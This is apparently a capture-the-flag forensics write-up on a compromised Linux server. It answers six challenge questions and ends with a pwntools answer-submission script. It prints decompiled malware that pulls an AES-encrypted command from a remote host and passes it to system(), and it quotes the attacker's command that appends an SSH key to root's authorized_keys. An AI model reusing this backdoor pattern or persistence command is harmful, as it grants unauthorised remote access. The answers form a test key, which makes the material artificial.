

> Aku memiliki server linux dan sepertinya baru saja dihack... Bantu aku analisis attachment yang kuberikan dan jawab semua pertanyaan yang ada
>
> Pass: 3a42937cf98baa5dd9a78846f54ae43f Attachment: https://drive.google.com/file/d/1dPNJvubVKFbM43w9IPABvn26sDfB12-T/view?usp=sharing
>
> `165.232.133.53 9082`

---

This challenge involves a compromised Linux server, and we are tasked with analyzing the provided attachment to answer six questions about the attack.

## No 1

```
Question: Repositori yang digunakan threat actor
Format: https://example/path/to/repo
```


Based on the evidence from these screenshots, I determined that the threat actor used a GitHub repository at `https://github.com/walawe1337-oss/simple-python-server`.

Answer: `https://github.com/walawe1337-oss/simple-python-server`

## No 2

```
Question: Hash MD5 file yang bersifat malicious (Lower case)
Format: -
```

For the second question, I needed to find the MD5 hash of the malicious file. Upon examining the repository, I noticed that the current commit didn't contain anything suspicious. However, checking the commit history revealed one previous commits. The commit at https://github.com/walawe1337-oss/simple-python-server/commit/b478d30b0cc57a6e5099f5f01300b91f3b8c9391 contained the malicious file.

I downloaded this file and calculated its MD5 hash using CyberChef with the MD5 recipe. This gave me the hash value in lowercase as required by the question format.

Answer: `11e128c2bf2f82f4e966a0ec2ff072bb`

## No 3

```
Question: Key and IV yang digunakan untuk enkripsi
Format: key:iv
```

To find this, I needed to analyze the binary file from the attachment. When decompiling the binary, I found the following main function:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // rax
  int v5; // [rsp+Ch] [rbp-824h] BYREF
  int data_from_server; // [rsp+10h] [rbp-820h]
  int v7; // [rsp+14h] [rbp-81Ch]
  __int64 v8; // [rsp+18h] [rbp-818h]
  char v9[1024]; // [rsp+20h] [rbp-810h] BYREF
  char command[1032]; // [rsp+420h] [rbp-410h] BYREF
  unsigned __int64 v11; // [rsp+828h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  data_from_server = get_data_from_server("165.232.133.53", 0x3017u, v9, 1024);
  if ( data_from_server <= 0 )
    return 1;
  v7 = 0;
  v8 = EVP_CIPHER_CTX_new();
  v4 = EVP_aes_256_cbc();
  EVP_DecryptInit_ex(v8, v4, 0, "this_is_my_secret_aes_256_key!!!", "abcdef1234567890");
  EVP_DecryptUpdate(v8, command, &v5, v9, (unsigned int)data_from_server);
  v7 += v5;
  EVP_DecryptFinal_ex(v8, &command[v7], &v5);
  v7 += v5;
  command[v7] = 0;
  EVP_CIPHER_CTX_free(v8);
  system(command);
  return 0;
}
```

Looking at the `EVP_DecryptInit_ex` function call, I could see that the binary was using AES-256-CBC decryption with a hardcoded key and IV. The key is `"this_is_my_secret_aes_256_key!!!"` and the IV is `"abcdef1234567890"`.

Answer: `this_is_my_secret_aes_256_key!!!:abcdef1234567890`

## No 4

```
Question: IP dan port yang digunakan oleh penyerang
Format: ip:port
```

The fourth question asks for the IP and port used by the attacker. From the decompiled code, I could see the function call:

`data_from_server = get_data_from_server("165.232.133.53", 0x3017u, v9, 1024);`

The IP address is clearly visible as `"165.232.133.53"`, and the port is specified as `0x3017u`, which is hexadecimal for 12311 in decimal.

Answer: `165.232.133.53:12311`

## No 5

```
Question: Perintah yang dieksekusi threat actor (didalam binary)
Format: -
```

I needed to determine what command the threat actor executed through the binary. The relevant part of the code is:

```c
EVP_DecryptUpdate(v8, command, &v5, v9, (unsigned int)data_from_server);
v7 += v5;
EVP_DecryptFinal_ex(v8, &command[v7], &v5);
v7 += v5;
command[v7] = 0;
EVP_CIPHER_CTX_free(v8);
system(command);
```

When a binary calls `system(command)`, the kernel forks, then `execve("/bin/sh", ["sh", "-c", command], envp)` happens. The execve system call loads `/bin/sh` and passes the environment variables (`SHELL=..`, `PWD=...,` etc.) and the command string.

From the attached image, I could see the actual command that was executed:



Answer: `echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICUHM+DTrehpFANzpOzDPUJi1DYaK1xwMpMLz1QqwxJ0 kali@kali" >> /root/.ssh/authorized_keys`

## No 6

```
Question: Teknik MITRE ATT&CK berdasarkan pertanyaan sebelumnya
Format: T12345.123
```

Since the attack involved adding an SSH key to the authorized_keys file, I searched for "MITRE ATT&CK ssh authorized_keys" and found that this corresponds to the technique "Account Manipulation: SSH Authorized Keys" with ID [T1098.004](https://attack.mitre.org/techniques/T1098/004/).

Answer: `T1098.004`

```py
from pwn import *

r = remote('165.232.133.53', 9082)

r.sendline(b'https://github.com/walawe1337-oss/simple-python-server')
r.sendline(b'11e128c2bf2f82f4e966a0ec2ff072bb')
r.sendline(b'this_is_my_secret_aes_256_key!!!:abcdef1234567890')
r.sendline(b'165.232.133.53:12311')
r.sendline(b'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICUHM+DTrehpFANzpOzDPUJi1DYaK1xwMpMLz1QqwxJ0 kali@kali" >> /root/.ssh/authorized_keys')
r.sendline(b'T1098.004')

r.interactive()
```
